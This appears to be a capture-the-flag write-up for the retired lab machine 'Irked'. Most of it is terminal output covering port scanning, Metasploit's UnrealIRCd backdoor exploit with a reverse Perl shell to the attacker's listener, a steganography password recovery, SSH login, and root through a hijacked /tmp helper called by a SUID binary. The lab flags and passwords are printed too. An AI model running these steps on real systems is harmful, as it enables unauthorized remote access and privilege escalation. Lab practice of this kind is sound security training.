

Doing some retired machines for extra practice.
I tried this one two years and got stuck. This time I got it.
Finding running services on common ports:
crazyeights@es-base:~$ sudo nmap -sS 10.10.10.117
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-01 16:49 EST
Nmap scan report for 10.10.10.117
Host is up (0.040s latency).
Not shown: 997 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
111/tcp open rpcbind
More thorough scanning, checking all ports:
crazyeights@es-base:~$ sudo nmap -sV -p- 10.10.10.117
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-01 16:58 EST
Nmap scan report for 10.10.10.117
Host is up (0.043s latency).
Not shown: 65528 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp open http Apache httpd 2.4.10 ((Debian))
111/tcp open rpcbind 2-4 (RPC #100000)
6697/tcp open irc UnrealIRCd
8067/tcp open irc UnrealIRCd
34547/tcp open status 1 (RPC #100024)
65534/tcp open irc UnrealIRCd
Add the folllowing line to /etc/hosts:
10.10.10.117 irked.htb
Index Page:
 13 exploit/unix/irc/unreal_ircd_3281_backdoor 2010-06-12 excellent No UnrealIRCD 3.2.8.1 Backdoor Command Execution
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 10.10.14.3
LHOST => 10.10.14.3
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > options
Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS 10.10.10.117 yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 6697 yes The target port (TCP)
Payload options (cmd/unix/reverse_perl):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 10.10.14.3 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic Target
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit
[*] Started reverse TCP handler on 10.10.14.3:4444
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
:irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Command shell session 1 opened (10.10.14.3:4444 -> 10.10.10.117:50228) at 2021-01-01 17:19:06 -0500
python3 -c 'import pty; pty.spawn("/bin/bash")'
ircd@irked:~/Unreal3.2$
ls -aR
.:
. .bashrc Desktop .gnupg Music .ssh
[SNIP]
./Documents:
. .. .backup user.txt
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
crazyeights@es-base:~/Downloads$ steghide extract -sf irked.jpg
Enter passphrase:
wrote extracted data to "pass.txt".
crazyeights@es-base:~/Downloads$ cat pass.txt
Kab6h+m+bbp2J:HG
Use the password to login to SSH as djmardov:
crazyeights@es-base:~$ ssh djmardov@10.10.10.117
djmardov@irked:~$ cd Documents/
djmardov@irked:~/Documents$ ls
user.txt
djmardov@irked:~/Documents$ cat user.txt
4a66a78b12dc0e661a59d3f5c0267a8e
djmardov@irked:~/Documents$ find / -perm /4000 2>/dev/null
[SNIP]
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
djmardov@irked:~/Documents$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2021-01-01 16:42 (:0)
djmardov pts/1 2021-01-01 17:26 (10.10.14.3)
sh: 1: /tmp/listusers: not found
djmardov@irked:~/Documents$
djmardov@irked:~/Documents$ cd /tmp
djmardov@irked:/tmp$ echo /bin/sh > listusers
djmardov@irked:/tmp$ chmod a+x listusers
djmardov@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2021-01-01 16:42 (:0)
djmardov pts/1 2021-01-01 17:26 (10.10.14.3)
# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
#
# cd /root
# ls
pass.txt root.txt
# cat pass.txt
Kab6h+m+bbp2J:HG
# cat root.txt
8d8e9e8be64654b6dccc3bff4522daf3
FIN.